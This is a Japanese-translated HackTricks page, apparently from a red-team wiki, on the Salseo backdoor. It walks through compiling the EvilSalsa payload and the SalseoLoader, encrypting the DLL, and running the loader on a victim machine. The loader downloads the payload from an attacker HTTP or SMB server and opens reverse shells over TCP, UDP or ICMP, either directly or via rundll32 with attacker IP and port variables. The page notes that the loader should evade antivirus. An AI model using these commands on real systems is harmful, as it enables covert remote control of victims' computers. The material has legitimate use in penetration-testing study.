 # Salseo

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## バイナリのコンパイル

githubからソースコードをダウンロードし、**EvilSalsa**と**SalseoLoader**をコンパイルします。コードをコンパイルするには**Visual Studio**が必要です。

使用するWindowsボックスのアーキテクチャに合わせてこれらのプロジェクトをコンパイルします（Windowsがx64をサポートしている場合は、そのアーキテクチャ用にコンパイルします）。

**Visual Studio**の**左側の「Build」タブ**の**「Platform Target」**で**アーキテクチャを選択**できます。

(\*\*このオプションが見つからない場合は、**「Project Tab」**をクリックし、次に**「\<Project Name> Properties」**をクリックします)

![](<../.gitbook/assets/image (839).png>)

次に、両方のプロジェクトをビルドします（Build -> Build Solution）（ログ内に実行可能ファイルのパスが表示されます）：

![](<../.gitbook/assets/image (381).png>)

## バックドアの準備

まず最初に、**EvilSalsa.dll**をエンコードする必要があります。そのためには、pythonスクリプト**encrypterassembly.py**を使用するか、プロジェクト**EncrypterAssembly**をコンパイルします：

### **Python**
```
python EncrypterAssembly/encrypterassembly.py <FILE> <PASSWORD> <OUTPUT_FILE>
python EncrypterAssembly/encrypterassembly.py EvilSalsax.dll password evilsalsa.dll.txt
```
### ウィンドウズ
```
EncrypterAssembly.exe <FILE> <PASSWORD> <OUTPUT_FILE>
EncrypterAssembly.exe EvilSalsax.dll password evilsalsa.dll.txt
```
Ok, now you have everything you need to execute all the Salseo thing: the **encoded EvilDalsa.dll** and the **binary of SalseoLoader.**

**SalseoLoader.exe バイナリをマシンにアップロードします。どのAVにも検出されないはずです...**

## **バックドアを実行する**

### **TCPリバースシェルを取得する（HTTPを通じてエンコードされたdllをダウンロードする）**

ncをリバースシェルリスナーとして起動し、エンコードされたevilsalsaを提供するHTTPサーバーを起動することを忘れないでください。
```
SalseoLoader.exe password http://<Attacker-IP>/evilsalsa.dll.txt reversetcp <Attacker-IP> <Port>
```
### **UDPリバースシェルの取得（SMBを通じてエンコードされたdllをダウンロード）**

リバースシェルリスナーとしてncを起動し、エンコードされたevilsalsaを提供するためにSMBサーバーを起動することを忘れないでください。
```
SalseoLoader.exe password \\<Attacker-IP>/folder/evilsalsa.dll.txt reverseudp <Attacker-IP> <Port>
```
### **ICMPリバースシェルの取得（被害者の中にエンコードされたdllが既に存在する）**

**今回は、リバースシェルを受信するためにクライアントに特別なツールが必要です。ダウンロード：** [**https://github.com/inquisb/icmpsh**](https://github.com/inquisb/icmpsh)

#### **ICMP応答を無効にする：**
```
sysctl -w net.ipv4.icmp_echo_ignore_all=1

#You finish, you can enable it again running:
sysctl -w net.ipv4.icmp_echo_ignore_all=0
```
#### クライアントを実行する：
```
python icmpsh_m.py "<Attacker-IP>" "<Victm-IP>"
```
#### 被害者の内部で、salseoのことを実行しましょう:
```
SalseoLoader.exe password C:/Path/to/evilsalsa.dll.txt reverseicmp <Attacker-IP>
```
## SalseoLoaderをDLLとしてコンパイルし、メイン関数をエクスポートする

Visual Studioを使用してSalseoLoaderプロジェクトを開きます。

### メイン関数の前に追加: \[DllExport]

![](<../.gitbook/assets/image (409).png>)

### このプロジェクトにDllExportをインストールする

#### **ツール** --> **NuGetパッケージマネージャー** --> **ソリューションのNuGetパッケージを管理...**

![](<../.gitbook/assets/image (881).png>)

#### **DllExportパッケージを検索（ブラウズタブを使用）し、インストールを押す（ポップアップを受け入れる）**

![](<../.gitbook/assets/image (100).png>)

プロジェクトフォルダーに**DllExport.bat**と**DllExport\_Configure.bat**のファイルが表示されます。

### **U**ninstall DllExport

**アンインストール**を押します（そう、変ですが信じてください、必要です）

![](<../.gitbook/assets/image (97).png>)

### **Visual Studioを終了し、DllExport\_configureを実行する**

ただ**終了**します

次に、**SalseoLoaderフォルダー**に移動し、**DllExport\_Configure.bat**を実行します。

**x64**を選択します（x64ボックス内で使用する場合、私のケースです）、**System.Runtime.InteropServices**を選択します（**DllExportの名前空間内**）そして**適用**を押します。

![](<../.gitbook/assets/image (882).png>)

### **Visual Studioでプロジェクトを再度開く**

**\[DllExport]**はもはやエラーとしてマークされていないはずです。

![](<../.gitbook/assets/image (670).png>)

### ソリューションをビルドする

**出力タイプ = クラスライブラリ**を選択します（プロジェクト --> SalseoLoaderプロパティ --> アプリケーション --> 出力タイプ = クラスライブラリ）

![](<../.gitbook/assets/image (847).png>)

**x64** **プラットフォーム**を選択します（プロジェクト --> SalseoLoaderプロパティ --> ビルド --> プラットフォームターゲット = x64）

![](<../.gitbook/assets/image (285).png>)

ソリューションを**ビルド**するには: ビルド --> ソリューションのビルド（出力コンソール内に新しいDLLのパスが表示されます）

### 生成されたDllをテストする

テストしたい場所にDllをコピーして貼り付けます。

実行:
```
rundll32.exe SalseoLoader.dll,main
```
エラーが表示されない場合、おそらく機能するDLLがあります!!

## DLLを使用してシェルを取得する

**HTTP** **サーバー**を使用し、**nc** **リスナー**を設定することを忘れないでください。

### Powershell
```
$env:pass="password"
$env:payload="http://10.2.0.5/evilsalsax64.dll.txt"
$env:lhost="10.2.0.5"
$env:lport="1337"
$env:shell="reversetcp"
rundll32.exe SalseoLoader.dll,main
```
### CMD
```
set pass=password
set payload=http://10.2.0.5/evilsalsax64.dll.txt
set lhost=10.2.0.5
set lport=1337
set shell=reversetcp
rundll32.exe SalseoLoader.dll,main
```
{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}
